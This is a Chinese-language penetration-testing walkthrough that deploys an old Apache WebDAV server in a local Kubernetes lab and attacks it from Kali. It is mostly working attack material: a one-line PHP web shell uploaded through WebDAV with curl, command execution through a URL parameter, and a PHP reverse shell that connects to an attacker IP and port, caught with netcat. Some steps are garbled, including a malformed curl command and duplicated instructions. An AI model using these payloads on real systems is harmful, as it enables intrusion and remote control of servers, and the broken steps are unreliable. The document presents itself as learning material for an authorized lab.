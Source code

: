 # 簡單滲透作業示範

本示例展示如何利用 Docker 結合 Kubernetes（kubectl）在 Mac Ventura 上部署目標 Web 服務，並在 Kali VM 上利用 WebDAV 漏洞上傳一句話木馬 (shell.php) 進行滲透攻擊。  
**注意：** 此示例僅供學習用途，請勿在未經授權的情況下使用。

---

## 1. 部署目標服務（本機端 - Mac Ventura）

1. **部署服務：**  
   - 在終端機中執行以下指令，使用附檔 `k8s.yaml` 部署目標服務：
     ```bash
     kubectl apply -f k8s.yaml
     ```

2. **查詢 Service 狀態：**  
   - 在本機瀏覽器中訪問：
     ```
     kubectl get all/svc -n namespace-double-nodes
     ```

3. **端口轉發：**  
   - 將服務的 80 號端口轉發到本機 10088 端口：
     ```bash
     kubectl port-forward service/service-internet 10088:80 -n namespace-double-nodes --address 0.0.0.0
     ```
     
4. **確認連線：**  
   - 在本機瀏覽器中訪問：
     ```
     http://127.0.0.1:10088
     ```
   - 若能看到 Apache httpd 2.2.8 與 DAV/2 標記的頁面，即表示服務正常運作。

---

## 2. 準備 Kali VM 進行滲透測試

1. **確認連線：**  
   - 在 Kali VM 終端機中執行：
     ```bash
     ping 127.0.0.1
     ```
   - ※ 注意：若 Kali 與本機位於不同網段，請使用正確的 IP。

2. **掃描服務：**  
   - 在 Kali VM 中執行 nmap 掃描確認服務版本：
     ```bash
     nmap -sV -p 10088 127.0.0.1
     ```
   - 結果應顯示 Apache httpd 2.2.8 ((Ubuntu) DAV/2)，表明 WebDAV 可能啟用且版本過舊，存在漏洞風險。

---

## 3. 製作木馬檔 (shell.php)（Kali VM）

1. **建立木馬檔：**  
   - 在 Kali VM 中執行：
     ```bash
     echo "<?php system(\$_GET['cmd']); ?>" > shell.php
     ```
   - 用文字編輯器檢查檔案，內容應為：
     ```php
     <?php system($_GET['cmd']); ?>
     ```

---

## 4. 利用 WebDAV 漏洞上傳木馬（Kali VM）

1. **嘗試上傳木馬：**  
   - 使用 curl 嘗試將 `shell.php` 上傳到目標服務（假設 WebDAV 允許匿名上傳）：
     ```bash
     curl -T shell.php http://127.0.0.1:10088/dav/
     ```
   - 若上傳成功，`shell.php` 應位於服務的根目錄。

---

## 5. 驗證滲透攻擊（Kali VM）

1. **測試木馬：**  
   - 在 Kali VM 的瀏覽器中訪問以下 URL：
     ```
     curl http://127.0.0.1:10088/shell.php?cmd=whoami
     ```
   - 若返回執行結果（例如 Apache 的運行使用者），則表示成功利用漏洞執行命令。
  
2. **準備反向 Shell PHP 檔案：**  
   - 新增一個檔案名為 `reverse_shell.php`，內容如下（根據你的實際環境修改 IP 與 port）：
   ```php
   <?php
   // reverse_shell.php：反向 shell 例子
   // 修改 "192.168.1.24" 為你的攻擊機 IP，以及 "4444" 為監聽的 port
   $sock = fsockopen("192.168.1.24", 4444);
   if ($sock) {
       exec("/bin/sh -i <&3 >&3 2>&3");
   }
   ?>

3. **攻擊機準備工作：**
   - 打開一個 Terminal，在攻擊機（例如 Kali VM）上啟動 Netcat 監聽 4444 端口：
   ```
   nc -nvlp 4444
   ```

4. **上傳 reverse_shell.php 到目標網站：**
   - 打開一個 Terminal，在攻擊機（例如 Kali VM）上啟動 Netcat 監聽 4444 端口：
   ```bash
     curl -T reverse_shell.php http://127.0.0.1:10088/dav/
     ```
   - 透過瀏覽器執行 reverse_shell.php：
   ```bash
     curl [-T reverse_shell.php http://127.0.0.1](http://目標IP/upload/reverse_shell.php)
     ```
   - 確認連線：如果反向連線成功，你的 Netcat 終端機會顯示來自目標系統的連線，並進入一個 shell。

---

## 6. 後續操作

- 一旦取得命令執行，便可進一步利用該木馬執行更多命令或反彈 shell。  
- 請根據目標環境調整攻擊策略與後續滲透步驟。

---

> **注意：**  
> 此示例僅供學習用途，請遵守相關法律與倫理規範，勿在未經授權的情況下進行滲透測試。

